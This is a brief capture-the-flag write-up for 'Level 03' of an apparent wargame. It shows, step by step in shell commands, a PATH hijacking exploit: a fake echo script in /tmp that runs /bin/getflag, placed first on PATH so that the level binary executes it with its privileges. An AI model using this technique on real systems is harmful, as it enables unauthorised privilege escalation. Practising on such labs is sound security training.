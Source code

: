 # Level 03

## step 1 : analyze level03
```
$ strings level03
```
we can see that level03 uses the echo command

## step 2 : create a fake echo command
```
$ echo "/bin/getflag" > /tmp/echo
$ chmod 777 /tmp/echo
$ export PATH="/tmp:$PATH"
```
## step 3 : execute level03
```
$ ./level03
```
